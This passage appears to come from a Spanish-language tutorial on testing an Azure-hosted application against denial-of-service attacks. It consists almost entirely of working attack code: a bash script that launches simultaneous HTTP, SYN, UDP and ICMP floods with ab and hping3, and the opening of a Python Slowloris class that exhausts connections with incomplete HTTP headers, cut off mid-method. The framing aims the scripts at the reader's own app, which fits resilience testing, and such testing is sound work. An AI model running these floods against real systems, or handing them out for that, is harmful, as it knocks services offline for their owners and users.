 #### **Escenario 2: Ataque Multi-Vector**
```bash
# Script multi-vector-attack.sh
#!/bin/bash

TARGET_DOMAIN="tu-aplicacion.azurewebsites.net"
TARGET_IP="20.x.x.x"  # IP de tu aplicación

echo "🚨 Iniciando ataque multi-vector"

# Vector 1: HTTP Flood (Layer 7)
ab -n 10000 -c 100 "https://$TARGET_DOMAIN/" &

# Vector 2: SYN Flood (Layer 4)
sudo hping3 -S -p 443 -i u100 "$TARGET_IP" &

# Vector 3: UDP Flood (Layer 4)
sudo hping3 -2 -p 53 -i u50 "$TARGET_IP" &

# Vector 4: ICMP Flood (Layer 3)
sudo hping3 -1 -i u200 "$TARGET_IP" &

echo "⚡ Todos los vectores activos - duración 60 segundos"
sleep 60

# Terminar todos los ataques
pkill -f "ab.*$TARGET_DOMAIN"
sudo pkill hping3

echo "✅ Ataque multi-vector completado"
```

#### **Escenario 3: Ataque Slowloris (Exhaustión de Conexiones)**
```python
# slowloris.py
import socket
import threading
import time

class Slowloris:
    def __init__(self, target, port=80, connections=200):
        self.target = target
        self.port = port
        self.connections = connections
        self.sockets = []
    
    def create_socket(self):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(4)
            sock.connect((self.target, self.port))
            
            # Enviar header HTTP incompleto
            sock.send(f"GET / HTTP/1.1\r\nHost: {self.target}\r\n".encode())
            return sock
        except:
            return None
    
    def slowloris_attack(self):
        print(f"🚨 Iniciando Slowloris contra {self.target}:{self.port}")
        
        # Crear conexiones iniciales
        for _ in range(self.connections):
```